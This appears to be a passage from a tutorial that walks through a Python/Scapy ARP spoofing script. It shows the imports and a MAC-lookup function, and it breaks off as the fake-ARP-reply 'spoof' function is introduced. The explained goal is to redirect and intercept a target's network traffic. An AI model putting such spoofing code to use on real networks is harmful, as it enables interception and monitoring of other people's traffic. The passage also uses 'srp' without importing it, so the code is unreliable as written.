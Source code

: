### What Is ARP Spoofing?
In ARP spoofing:
1. **Goal**: You make a device believe that your computer’s MAC address is associated with another IP (like the gateway or router).
2. **Effect**: The target device starts sending traffic meant for that IP address to you instead, allowing you to intercept, monitor, or redirect that traffic.

### Step-by-Step Explanation

#### 1. Import Necessary Modules

```python
from scapy.all import ARP, Ether, send
import time
import sys
```

- **`scapy.all`**: Scapy is a powerful Python library for network packet manipulation. We’re using it here to create ARP packets.
- **`time`**: Used to add delays between packets.
- **`sys`**: Standard Python module for system-specific functions (not critical here).

#### 2. `get_mac(ip)` Function

This function finds the **MAC address** of a device based on its **IP address**.

```python
def get_mac(ip):
    """Get the MAC address of a device with a given IP."""
    arp_request = ARP(pdst=ip)
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    response = srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    
    if response:
        return response[0][1].hwsrc
    else:
        print(f"No response for IP: {ip}")
        return None
```

Here’s what it does:
- **Create an ARP Request**: `ARP(pdst=ip)` creates an ARP request packet for the IP address (`pdst`) you provide.
- **Broadcast Packet**: `Ether(dst="ff:ff:ff:ff:ff:ff")` sets up a broadcast Ethernet packet, so all devices on the network see this ARP request.
- **Send and Receive**: `srp` (send and receive packets at the data link layer) sends this packet and waits for a response. If a device with the specified IP responds, we get its MAC address (`hwsrc`).

#### 3. `spoof(target_ip, spoof_ip)` Function

This function **sends a fake ARP response** to make the target device associate your MAC address with the IP of another device, like the gateway.
